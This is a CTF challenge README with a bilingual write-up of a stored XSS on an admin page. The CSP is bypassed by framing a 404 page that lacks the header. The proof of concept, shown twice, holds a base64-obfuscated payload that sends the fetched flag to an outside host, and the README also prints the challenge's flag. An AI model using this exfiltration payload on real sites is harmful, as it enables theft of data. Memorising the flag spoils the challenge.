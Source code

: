 # web | novosti

![novosti share page](./screenshots/novosti.png)

## Information

Даже в такие тяжёлые времена, как сейчас, людям нужна информация. Мы решили запустить свой новостной сайт, но только так, чтобы об этом не узнали сам-знаешь-кто. Надеемся, очевидцы будут присылать нам новости, чтобы было, что публиковать. Не самим же искать анонсы, в самом-то деле...

Even in hard times like these, people need information. We have decided to start our own news site, but only so that you-know-who doesn't find out about it. We hope that eyewitnesses will send us news so that we have something to publish. It's not like we have to look for announcements ourselves, really....

[https://novosti-3d5d54b8c9f9f81aabcf60563021845f.ctfcup-2023.ru](https://novosti-3d5d54b8c9f9f81aabcf60563021845f.ctfcup-2023.ru)

## Deploy

```sh
cd deploy
NOVOSTI_FLAG="ctfcup{flag}" docker compose -p web-novosti up --build -d
```

## Public

Provide zip file: [public/novosti.zip](public/novosti.zip).

## TLDR

Classic XSS task with CSP bypass by framing a `40x` page with missing CSP.

## Writeup (ru)

На странице просмотра предложенных новостей, которая доступна только админу, присутствует XSS из-за использованного метода `raw`, который вставит переданный ему аргумент не применяя какой-либо санитизации ([deploy/service/app/views/Admin/View.html#L7](./deploy/service/app/views/Admin/View.html#L7)). К сожалению, приложение имеет достаточно строгую CSP политику, которая выставляется в фильтре, устанавливаевом при инициализации приложения в файле [deploy/service/app/init.go](./deploy/service/app/init.go):

```go
var HeaderFilter = func(c *revel.Controller, fc []revel.Filter) {
	c.Response.Out.Header().Add("X-Frame-Options", "SAMEORIGIN")
	c.Response.Out.Header().Add("Content-Security-Policy", "default-src 'self'; base-uri 'none'; object-src 'none'; script-src 'self' 'unsafe-inline' https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/; style-src 'self' 'unsafe-inline'; frame-src 'self' https://www.google.com/recaptcha/ https://recaptcha.google.com/recaptcha/;")

	fc[0](c, fc[1:])
}
```

Данная CSP политика не позволяет инициировать соединения к каким-либо ресурсам, кроме самого сайта (правило `default-src 'self'` используется в качестве `connect-src`, т.к. оно в явном виде не присутствует), что необходимо для решения таска, так как флаг доступен в локальной сети на сервисе `files`, который содержит nginx, раздающий файл именно с необходимой нам CORS-политикой, "`Access-Control-Allow-Origin http://service:9000`".

Однако, приложение применяет эти фильтры в не совсем корректном порядке:

```go
func init() {
	revel.Filters = []revel.Filter{
		revel.PanicFilter,             // Recover from panics and display an error page instead.
		revel.RouterFilter,            // Use the routing table to select the right Action
		revel.FilterConfiguringFilter, // A hook for adding or removing per-Action filters.
		revel.ParamsFilter,            // Parse parameters into Controller.Params.
		revel.SessionFilter,           // Restore and write the session cookie.
		revel.FlashFilter,             // Restore and write the flash cookie.
		revel.ValidationFilter,        // Restore kept validation errors and save new ones from cookie.
		filters.I18nFilter,            // Resolve the requested language
		HeaderFilter,                  // Add some security based headers
  ...
```

Из-за чего ответ на любые запросы, обработка которых не дойдёт до этого фильтра, не будут содержать CSP политику. Так, например, запрос на любой несуществующий эндпоинт, то есть тот, который не определён в файле `routes` фреймворка ([deploy/service/conf/routes](./deploy/service/conf/routes)), например `/404`, вернёт ответ без заголовка `Content-Security-Policy`.

Благодаря этому можно создать `iframe` на такую страницу, после чего на ней уже исполнить нужный JS код без каких-либо ограничений. POC:

```html
<script>
  const iframe = document.createElement("iframe");
  iframe.src = "/404";
  document.body.appendChild(iframe);
  setTimeout(() => {
    iframe.contentWindow.document.body.innerHTML = `<img src=x onerror="eval(atob('ZmV0Y2goImh0dHA6Ly9maWxlczo4MDgwL2ZsYWciKS50aGVuKHI9PnIudGV4dCgpKS50aGVuKHQ9Pm5hdmlnYXRvci5zZW5kQmVhY29uKCJodHRwOi8vcmVuYm91LnJ1Iix0KSk7'))" />`;
  }, 1000);
</script>
```

Полноценный эксплоит должен быть написан без переноса строк, и доступен в файле [solve/xss.txt](./solve/xss.txt).

## Writeup (en)

An XSS is present on the suggested news review page, which is available to the admin, due to usage of the `raw` method inside the page's template, which inserts the given argument without performing any sanitization ([deploy/service/app/views/Admin/View.html#L7](./deploy/service/app/views/Admin/View.html#L7)). Sadly, the application contains a pretty strict CSP policy, which is set inside a filter, specified during the initialization of the app in [deploy/service/app/init.go](./deploy/service/app/init.go):

```go
var HeaderFilter = func(c *revel.Controller, fc []revel.Filter) {
	c.Response.Out.Header().Add("X-Frame-Options", "SAMEORIGIN")
	c.Response.Out.Header().Add("Content-Security-Policy", "default-src 'self'; base-uri 'none'; object-src 'none'; script-src 'self' 'unsafe-inline' https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/; style-src 'self' 'unsafe-inline'; frame-src 'self' https://www.google.com/recaptcha/ https://recaptcha.google.com/recaptcha/;")

	fc[0](c, fc[1:])
}
```

This CSP policy doesn't allow initiation of connections to any resources besides the website itseld (the `default-src 'self'` rule is used for `connect-src` since it isn't present), which is needed to solve the task, as the flag is hosted in the local network on the `files` service, which contains an nginx serving files with the exact CORS-policy that we need, "`Access-Control-Allow-Origin http://service:9000`".

However, the application runs its filters in an incorrect order:

```go
func init() {
	revel.Filters = []revel.Filter{
		revel.PanicFilter,             // Recover from panics and display an error page instead.
		revel.RouterFilter,            // Use the routing table to select the right Action
		revel.FilterConfiguringFilter, // A hook for adding or removing per-Action filters.
		revel.ParamsFilter,            // Parse parameters into Controller.Params.
		revel.SessionFilter,           // Restore and write the session cookie.
		revel.FlashFilter,             // Restore and write the flash cookie.
		revel.ValidationFilter,        // Restore kept validation errors and save new ones from cookie.
		filters.I18nFilter,            // Resolve the requested language
		HeaderFilter,                  // Add some security based headers
  ...
```

Which is why the response to any requests, the handling of which doesn't reach this filter, will not contain the CSP policy. This way, any request to an unexistent endpoint, which is any route not defined in the framework's `routes` file ([deploy/service/conf/routes](./deploy/service/conf/routes)), for example `/404`, will result in a response without the `Content-Security-Policy` header.

Thanks to this it is possible to create an `iframe` leading to such page, and then run any JS codes in the iframe without any further limits. POC:

```html
<script>
  const iframe = document.createElement("iframe");
  iframe.src = "/404";
  document.body.appendChild(iframe);
  setTimeout(() => {
    iframe.contentWindow.document.body.innerHTML = `<img src=x onerror="eval(atob('ZmV0Y2goImh0dHA6Ly9maWxlczo4MDgwL2ZsYWciKS50aGVuKHI9PnIudGV4dCgpKS50aGVuKHQ9Pm5hdmlnYXRvci5zZW5kQmVhY29uKCJodHRwOi8vcmVuYm91LnJ1Iix0KSk7'))" />`;
  }, 1000);
</script>
```

For actual exploitation the exploit needs to be written without line breaks, and is available in the file [solve/xss.txt](./solve/xss.txt).

## Domain

https://novosti-3d5d54b8c9f9f81aabcf60563021845f.ctfcup-2023.ru

## Cloudflare

Yes

## Flag

ctfcup{b4by-1fr4m3-x55-a4371ea843fc145f}

